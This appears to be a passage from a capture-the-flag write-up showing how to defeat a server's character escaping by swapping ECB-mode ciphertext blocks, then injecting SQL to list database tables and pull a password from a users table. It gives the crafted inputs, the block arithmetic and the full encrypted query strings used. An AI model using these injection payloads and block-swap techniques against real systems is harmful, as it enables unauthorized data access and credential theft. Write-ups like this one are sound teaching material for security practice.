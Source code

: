 As we can see, for inputs of length 1-9, the 3rd block is different each time. But for inputs of length 10-12, the 3rd block stays the same. We can assume that the first 10 chars of the input are included in the 3rd block, and the 11 and 12 chars are part of the ending blocks.

Another thing we can try are special characters like `'`, `"`, and `\` inside the input. When we use an input of 11 'A' and then a special character, a new block is created. But the length is 12 bytes as before, then why is that happening? We can assume that the reason is escaping, the server adds `\` before those to avoid `SQL injections`. To justify that, we will try 9 'A' and then a special character that should be escaped, for example `'` and `"`. This is the result:
```
': G+glEae6W/1XjA7vRm21n NyEco/c+J2TdR0Qp8dcjP IWJ2pwLjKxd0ddiQ3a1c5l stdkbwCSkbjZzJR1Froznc qM9OYQkTq645oGdhkgSlo=
": G+glEae6W/1XjA7vRm21n NyEco/c+J2TdR0Qp8dcjP IWJ2pwLjKxd0ddiQ3a1c5l e0uzFQTQyTJF5uPUK3I8gM qM9OYQkTq645oGdhkgSlo=
```
We can see that only the 4th block is different, so we assume that a `\` is added before the special characters to escape them, making the first 10 chars of the input `'AA..A\'` for both of them and therefore the 3rd block is the same. This is important because this way we can "push" special characters into the next block.

Therefore, we can assume that the server is doing the following process:
```
plaintext → escape → base64 encode → PKCS#7 pad → encrypt → base64 encode → URL encode
```
Now that we know the process, we can try to mimic that with an input we craft, so we can avoid the escaping of special characters and try to do `SQL injection`. First, we want to try a simple `' OR 1=1 -- ` injection. To do so, we can use the server's escaping to "push" the `'` to the second block. So we use an input that looks like this:
```
<9 time 'A'> + "' OR 1=1 -- "
```
The space after `--` is important, so the block is exactly 12 bytes. The output looks like this:
```
<2 start blocks> + <block for 9 'A' + '\'> + <block for "' OR 1=1 -- "> + <2 ending blocks>
G+glEae6W/1XjA7vRm21n NyEco/c+J2TdR0Qp8dcjP IWJ2pwLjKxd0ddiQ3a1c5l WY4bHaEWFEfgtXy4iixC3k HAmMS6zcXtk1dWTlEF3X5 k0NzIaCU2kq38vTeW0b+K
```

Now, we replace the input from last time to be `<11 spaces> + OR 1=1 -- `. We can extract the 3rd block from the output (as we know it's length is 22 bytes and we know the first 2 blocks), and we get `ItlMM3qTizkRB5P2zYxJsb`, which is a block full of spaces. Now, we replace the 3rd block from earlier with this block, and we get this:
```
<2 start blocks> + <block for 10 spaces> + <block for "' OR 1=1 -- "> + <2 ending blocks>
G+glEae6W/1XjA7vRm21n NyEco/c+J2TdR0Qp8dcjP ItlMM3qTizkRB5P2zYxJsb WY4bHaEWFEfgtXy4iixC3k HAmMS6zcXtk1dWTlEF3X5 k0NzIaCU2kq38vTeW0b+K
```
We use this input as the query in the `GET` request and we get all the jokes, which means our injection worked. Now, we want to use this way to inject a malicious input that will give us the password. Let's check what tables exist in that DB, we can do that by injecting this input `' UNION SELECT table_name FROM information_schema.tables -- `. Again, we add 9 A's at the beggining, and then replacing the 3rd block with the spaces block `ItlMM3qTizkRB5P2zYxJsb`. So we use this query:
```
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjP ItlMM3qTizkRB5P2zYxJsb r0T1ii%2BYsw9O0BMRL2Q9HUY%2BHp7DfIbgLrY9HzzScnSwiwIQQLHbuTybkf0vfvyOoCLbaaTsQXr%2FFtPddaH%2FkEHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK
```
And we get all the table names as a result. We can see `jokes` in there but the one we're intersted in is `users`. The input we want to inject now is `' UNION SELECT password FROM users; -- ` to hopefully get the password. As before, we use 9 A's and the input, then replace the 3rd block with the spaces block, so be using this query
```
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsbWnPci%2FqKte0ohRTkObF%2BT5ujPcGtKfnu%2FmSL%2FsyLoz1y%2BexMySI3M79Oa4mUCUQ%2Fp36O0aq%2BC10FxP%2FmrBQjq0eOsaH%2BJhosbBUGEQmz%2Fto%3D
```
We get the next password.
